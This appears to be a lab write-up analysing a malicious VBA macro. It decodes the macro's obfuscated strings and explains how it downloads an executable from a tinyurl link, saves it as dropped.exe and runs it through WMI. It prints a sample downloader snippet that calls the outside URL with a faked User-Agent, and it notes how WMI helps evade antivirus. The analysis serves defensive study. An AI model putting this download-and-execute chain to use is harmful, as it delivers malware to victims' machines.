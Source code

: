 We've got strings from a vba script so we need to decode what
information from the script to know what' s going on .

![A screenshot of a computer code AI-generated content may be
incorrect.](images/media/image1.png)

First let us analyze this block .We are solely focusing on the hex
strings as the others are just functions written in gibberish .

![](images/media/image2.png)

As & in between we need to concatenate

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image3.png)

We get a domain with a suspicious directory

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image4.png)

Next block of code

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image5.png){width="6.5in"
height="2.0034722222222223in"}

Then the very next line says environ(temp)/ & referring to the same
function that gave us dropped exe so right form the tinyurl to this temp
everything seems to be related .

What I can deduce right now is that the url is trying to create a temp
file called dropped.exe .Lets move forward .

![A close up of numbers AI-generated content may be
incorrect.](images/media/image6.png)

This confirm its that something is being created .

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image7.png)

**What it actually is**

- It's a **COM object** (a reusable Windows component).

> **COM objects in plain terms**

- **COM** = Component Object Model.

- They're **built-in Windows components** that behave like little tools
  or libraries.

- You don't "install" them every time; they're already there with
  Windows or Microsoft Office.

- A script (VBA, VBS, PowerShell, etc.) can say *"CreateObject(...)\"*
  and Windows hands it back that tool.

> **Why "class objects"**
>
> Each COM object is exposed as a **class** with methods and properties
> you can call.\
> Example:

- MSXML2.ServerXMLHTTP.6.0 → class for making HTTP requests.

- ADODB.Stream → class for writing/reading files/bytes.

- Scripting.FileSystemObject → class for file operations.

<!-- -->

- Part of Microsoft's XML Core Services (MSXML).

- "ServerXMLHTTP" is a special class inside that library.

- The .6.0 at the end just means "version 6 of the library."

------------------------------------------------------------------------

**What it does**

It gives you a way to **make HTTP(S) requests directly from a script**.\
Think of it as:

- A built-in "web browser without the window."

- You can say: *"connect to this URL, send this request, return the
  response."*

------------------------------------------------------------------------

**Why malware uses it**

- No need to ship a downloader --- Windows already has this object.

- It lets them pretend to be a browser (by setting User-Agent).

- It can talk over HTTPS just like Chrome/Edge/IE.

- Works fine from VBA, VBS, or PowerShell.

------------------------------------------------------------------------

**Typical usage in a malicious VBA script**

Set http = CreateObject(\"MSXML2.ServerXMLHTTP.6.0\")

\'Open a connection

http.Open \"GET\", \"https://tinyurl.com/g2z2gh6f\", False

\'Set fake headers to look like IE6 on Windows 2000

http.setRequestHeader \"User-Agent\", \"Mozilla/4.0 (compatible; MSIE
6.0; Windows NT 5.0)\"

\'Send the request

http.Send

\'At this point, http.ResponseBody contains the downloaded file bytes

------------------------------------------------------------------------

**What happens next**

- The script takes http.ResponseBody (the raw downloaded data).

- Passes it to another COM object: **ADODB.Stream**.

- ADODB.Stream writes those bytes to disk (e.g. as dropped.exe).

- Then Wscript.Shell or Shell runs that file.

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image8.png)

This is the user agent . Probably a fake one for authenctication.

Now we will answer some questions .

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image9.png)

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image10.png)

All straightforward as we decoded the meaning earlier .

![A screenshot of a computer program AI-generated content may be
incorrect.](images/media/image11.png){![A screenshot of a computer code
AI-generated content may be
incorrect.](images/media/image12.png)![A screenshot of a computer code
AI-generated content may be
incorrect.](images/media/image13.png)

Now we are analyzing the later part of the code .

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image14.png)

Meaninful text out of it is .

WScript.Shell

winmgmts:\\\\.\\root\\cimv2:Win32_Process

1.  **WScript.Shell**

    - Another COM object.

    - Lets scripts run commands, launch executables, interact with the
      system shell.

    - 

    - Malware often uses it to execute the final payload (dropped.exe
      from before).

2.  **winmgmts:\\\\.\\root\\cimv2:Win32_Process**

    - This is **WMI (Windows Management Instrumentation)**.

    - root\\cimv2 = default WMI namespace on Windows.

    - Win32_Process = the WMI class that represents processes.

    - Meaning: The macro is preparing to **spawn a new process through
      WMI** (instead of calling cmd.exe directly).

------------------------------------------------------------------------

**Why malware uses WMI instead of just cmd.exe**

- **Stealth:** Some AV/EDR solutions flag direct cmd/ShellExecute calls.

- **Bypass restrictions:** WMI can spawn processes under different
  contexts.

- **Persistence or lateral movement:** WMI is commonly abused for remote
  code execution across machines.

This ties back to the rest of the VBA:

- **MSXML2.ServerXMLHTTP.6.0** → downloads the malicious file.

- **ADODB.Stream** → saves it as dropped.exe.

- **WScript.Shell / WMI Win32_Process** → executes that file stealthily.

![A screenshot of a computer screen AI-generated content may be
incorrect.](images/media/image15.png)
